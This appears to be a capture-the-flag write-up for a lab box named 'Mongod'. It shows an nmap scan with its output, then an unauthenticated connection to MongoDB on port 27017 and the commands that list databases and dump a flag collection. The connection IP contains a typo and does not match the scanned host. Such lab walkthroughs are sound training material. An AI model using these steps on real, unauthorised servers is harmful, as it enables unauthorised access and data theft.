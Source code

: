 # Mongod

- TL;DR: Connect to a MongoDB server using the `mongo` cli tool without a username and passwoed and get the flag in one of the database->collections->documents

## Reconnaissance

- Run an nmap scan:
```
nmap -p- --min-rate=1000 -sV 10.129.228.30

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 07:20 PDT
Nmap scan report for 10.129.228.30
Host is up (0.077s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.91 seconds
```
- `-p-`: This flag scans for all TCP ports ranging from 0-65535
- `-sV`: Attempts to determine the version of the serivce running on the port.
- `--min-rate`: This specifies the minumum number of packets that Nmap should send per second; it speeds up the scan as the number goes higher.


<br>

## Exploitation

- The scan shows the following ports are open:
    - `22/tcp` running the `ssh` service
    - `27017/tcp` running the `mongodb` service
- To connect to the `mongodb` service we download the `mongo` CLI using the following commands:
    ```
    curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz`
    tar xvf mongodb-linux-x86_64-3.4.7.tgz
    ```
    - Navigate to where the `mongo` binary is present: `cd mongodb-linux-x86_64-3.4.7/bin`
- Connect to the MongoDB server running on the remote host with:
    - `mongo mongodb:10.129.288.30:27017`
- Once connected, we can run the following commands to enumerate the MongoDB server:
    - `show dbs;`: Lists out all the databases on the server
    - `use sensitive_information;`: Uses the database specified in the command
    - `show collections;`: Lists out all the collections in the database selected from the previous command
    - `db.<collection_name>.find().pretty();`: Displays the contents of the collection specified in the command. That would be `flag` in our case. Example `db.flag.find().pretty();`


